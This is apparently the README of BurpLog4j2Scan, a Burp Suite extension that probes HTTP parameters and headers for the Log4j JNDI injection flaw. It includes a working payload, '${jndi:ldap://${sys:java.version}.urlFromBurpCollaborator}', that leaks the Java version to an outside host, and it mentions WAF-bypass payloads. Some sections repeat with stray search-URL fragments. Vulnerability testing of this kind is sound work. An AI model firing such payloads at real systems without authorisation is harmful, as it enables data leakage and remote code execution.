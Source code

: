 # BurpLog4j2Scan

### How to use
1. Load BurpLog4j2Scan.jar through Extender
![img.png](images/1.png)

2. Right click the request which you want to check and then follow Extensions >Send to BurpLog4j2Scan
![img.png](images/2.png)
3. Be patient and wait for the result, or maybe you can grab a coffee. The scan time could be around 10 minutes for complicated request.
4. Find the result in BurpLog4j2Scan Tab. If vuln exists, you can check the injected request and then further investigate on it.
![img.png](images/3.png)

### How to investigate:

For example, the tool told us header User-Agent can lead to log4j vul.
![img.png](images/4.png)

We can then use below payload to test it.
${jndi:ldap://${sys:java.version}.urlFromBurpCollaborator}
![img.png](images/5.png)

And then we can get the dns result which contains the java version from Burp Collaborator Client which means the log4j vuln exists.
![img.png](images/6.png) - Google URL: http://www.google.com/search?q=### How to investigate:

For example, the tool told us header User-Agent can lead to log4j vul.
![img.png](images/4.png)

We can then use below payload to test it.
${jndi:ldap://${sys:java.version}.urlFromBurpCollaborator}
![img.png](images/5.png)

And then we can get the dns result which contains the java version from Burp Collaborator Client which means the log4j vuln exists.
![img.png](images/6.png)

### What it supports:
1. Get parameter check:
![img.png](images/7.png)

2. Post parameter check:
![img.png](images/8.png)

3. Json parameter check:

![img.png](images/9.png)


4. Header check(First check original header, and then add some guess headers for further check )
![img.png](images/10.png) - Google URL: http://www.google.com/search?q=### What it supports:
1. Get parameter check:
![img.png](images/7.png)

2. Post parameter check:
![img.png](images/8.png)

3. Json parameter check:

![img.png](images/9.png)


4. Header check(First check original header, and then add some guess headers for further check )
![img.png](images/10.png)

### Features:
1. Cover checking on get,post,json,header
2. Add some bypass waf payloads
3. Accurate detection, and can investigate the detail clearly after vuln has been found.
